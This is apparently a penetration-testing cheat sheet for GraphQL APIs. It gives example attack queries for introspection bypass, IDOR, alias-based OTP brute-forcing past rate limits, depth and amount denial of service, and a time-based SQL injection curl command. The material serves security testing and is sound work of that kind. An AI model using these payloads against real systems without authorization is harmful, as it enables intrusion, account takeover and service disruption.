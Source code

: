 # GraphQL API Testing

**What is GraphQL? Why is it used?**
- Just one endpoint - easier for developers
- Instead of making requests to different URIs for an operation, queries are send to the single endpoint for operations

**Common Terms**
- Queries: Fetch data
- Mutations: Edit data
- Fragments: Easily save lists of fields
- Metafields: Inspect query or mutation information

**Why should it be tested?**
- Relatively new tech
- Developer might adopt it without being fully aware of security concerns

## Enumerating GraphQL endpoints
- Common endpoint names
  ```  
    /graphql
    /qql
    /graphiql
    /api
    /api/graphql
    /graphql/api
    /graphql/graphql
    /graphql/console
  ```
  
- Confirm if an endpoint is GraphQL using Universal queries - Every GraphQL endpoint has a reserved field called `__typename` that returns the queried object's type as a string
  ```
  # Send the query
  query{__typename}
  
  # You should receive a response containing this string if it is a GraphQL endpoint
  {"data": {"__typename": "query"}}  
  ```
  
- Abuse the GraphQL Introspection (if not disabled) feature

## Introspection
- Built-in feature that enables you to retrieve information about the GraphQL schema
- Used by developers to form queries
- Should be disabled in production - can disclose potentially sensitive data

Simple Introspection Query - Manual
  ```
  {
        "query": "{__schema{queryType{name}}}"
  }  
  ```

Introspection - Automated tools
  - InQL: BurpSuite addon
  - GraphQL Map: CLI tool

Visualizing introspection results
  - GraphQL voyager
  - [GraphQL visualizer](http://nathanrandal.com/graphql-visualizer/)

If introspection is disabled
  - Abuse verbose error messages. Use [Clairvoyance (tool)](https://github.com/nikitastupin/clairvoyance)
  - Send the introspection probe via another HTTP method
  - If introspection is disabled using regex - try inserting characters like spaces, new lines and commas after `__schema{` since they are ignored by GraphQL but could bypass regex
 
## IDOR
```
# Query a product that we don't have access to, by guessing the id

    query {
        product(id: "1337") {
            id
            name
        }
    }
```

## Rate Limit bypass using Alias
A query can't return more than one property with the same name. To bypass this restriction we can use aliases.
```
# Example alias

query getProductDetails {
        product1: getProduct(id: "1") {             <------ Property 1
            id
            name
        }
        product2: getProduct(id: "2") {             <------ Property 2
            id
            name
        }
    }
```
Such queries with aliases can be used to **perform multiple operations on an endpoint in one request** - bypassing request based rate limiting
```
# Example bruteforce OTP

query isValidOTP($code: Int) {
        isValidOTP(code:$code){
            valid
        }
        isValidOTP2:isValidDiscount(code:$code){
            valid
        }
        isValidOTP3:isValidDiscount(code:$code){
            valid
        }
    }
```

## DOS
Depth DoS
```
query evil {            # Depth: 0
  album(id: 42) {       # Depth: 1
    songs {             # Depth: 2
      album {           # Depth: 3
        ...             # Depth: ...
        album {id: N}   # Depth: N
      }
    }
  }
}
```
Amount DoS
```
query {
  author(id: "abc") {
    posts(first: 99999999) {             <---- Huge amount
      title
    }
  }
}
```

## SQL/NoSQL Injection
See H1 report - [SQL injection in GraphQL endpoint](https://hackerone.com/reports/435066)

```
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

## CSRF
See H1 report - [CSRF allows executing mutations through GET requests](https://hackerone.com/reports/1122408)
- Where a GraphQL endpoint does
  - Not Validate the content type of the requests sent to it - `x-www-form-urlencoded` GET requests, instead of `application/json` POST requests
  - Not implement CSRF tokens. 


**References**
1. [Katie Paxton Fear Finding Your Next Bug: GraphQL](https://www.youtube.com/watch?v=jyjGneKJynk)
2. [Katie Paxton Fear Hunting for bugs in GraphQL APIs (Demo)](https://www.youtube.com/watch?v=viWzbPuGqpo)
3. [Introduction To GraphQL Penetration Test](https://www.youtube.com/watch?v=iSZ0RrCrpf4)
4. [PortSwigger GraphQL API vulnerabilities ](https://portswigger.net/web-security/graphql)
5. [OWASP GraphQL Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
